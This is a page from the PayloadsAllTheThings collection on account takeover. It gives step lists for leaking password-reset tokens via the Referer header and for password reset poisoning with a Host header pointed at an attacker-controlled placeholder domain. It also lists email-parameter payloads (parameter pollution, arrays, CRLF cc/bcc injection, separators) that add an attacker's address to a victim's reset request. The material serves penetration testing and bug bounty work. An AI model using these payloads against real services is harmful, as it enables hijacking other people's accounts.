

repository: swisskyrepo/PayloadsAllTheThings · page: Account Takeover/index.html · generator: mkdocs

# Account Takeover

> Account Takeover (ATO) is a significant threat in the cybersecurity landscape, involving unauthorized access to users' accounts through various attack vectors.

## Summary

* [Password Reset Feature](#password-reset-feature)
    * [Password Reset Token Leak via Referrer](#password-reset-token-leak-via-referrer)
    * [Account Takeover Through Password Reset Poisoning](#account-takeover-through-password-reset-poisoning)
    * [Password Reset via Email Parameter](#password-reset-via-email-parameter)
    * [IDOR on API Parameters](#idor-on-api-parameters)
    * [Weak Password Reset Token](#weak-password-reset-token)
    * [Leaking Password Reset Token](#leaking-password-reset-token)
    * [Password Reset via Username Collision](#password-reset-via-username-collision)
    * [Account Takeover Due To Unicode Normalization Issue](#account-takeover-due-to-unicode-normalization-issue)
* [Account Takeover via Web Vulnerabilities](#account-takeover-via-web-vulnerabilities)
    * [Account Takeover via Cross Site Scripting](#account-takeover-via-cross-site-scripting)
    * [Account Takeover via HTTP Request Smuggling](#account-takeover-via-http-request-smuggling)
    * [Account Takeover via CSRF](#account-takeover-via-csrf)
* [References](#references)

## Password Reset Feature

### Password Reset Token Leak via Referrer

1. Request password reset to your email address
2. Click on the password reset link
3. Don't change password
4. Click any 3rd party websites(e.g., Facebook, twitter)
5. Intercept the request in Burp Suite proxy
6. Check if the referer header is leaking password reset token.

### Account Takeover Through Password Reset Poisoning

1. Intercept the password reset request in Burp Suite
2. Add or edit the following headers in Burp Suite : `Host: [ATTACKER.DOMAIN.TLD]`, `X-Forwarded-Host: [ATTACKER.DOMAIN.TLD]`
3. Forward the request with the modified header

    ```http
    POST https://example.com/reset.php HTTP/1.1
    Accept: */*
    Content-Type: application/json
    Host: [ATTACKER.DOMAIN.TLD]
    ```

4. Look for a password reset URL based on the *host header* like : `https://[ATTACKER.DOMAIN.TLD]/reset-password.php?token=TOKEN`

### Password Reset via Email Parameter

```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
